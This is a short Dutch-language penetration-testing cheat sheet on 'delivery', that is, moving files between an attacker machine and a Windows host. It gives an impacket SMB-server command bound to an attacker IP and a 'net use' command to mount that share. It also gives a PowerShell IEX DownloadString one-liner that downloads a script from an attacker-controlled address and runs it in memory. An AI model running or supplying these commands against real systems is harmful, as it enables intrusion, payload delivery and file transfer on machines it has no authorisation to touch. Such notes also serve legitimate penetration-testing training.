 ## Delivery

### Overzicht

Het overbrengen van bestanden en/of folders via een transfer systeem, waardoor het leveren van bestanden makkelijker wordt.

### Windows naar Linux

#### SMB

**1. Linux Opzet**

```
impacket-smbserver /<sharename> /<folder-to-user> -ip <attacker-ip> -u 'Guest' -p 'Password123!' --smb2support 
```

**2. Windows Opzet**

```
net use \\<attacker-ip>\<sharename> -Username 'Guest':'Password123!'
net use 
```

*Other ways of delivering*

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://<ip>:<port>/<file.extension>');"
```

**3. Bestand**

Bestand zal zich bevinden in de <folder-to-use> -> attacker machine, waar dit was gedefinieerd in stap 1. 

Dit kan alleen via de shell van windows naar linux.

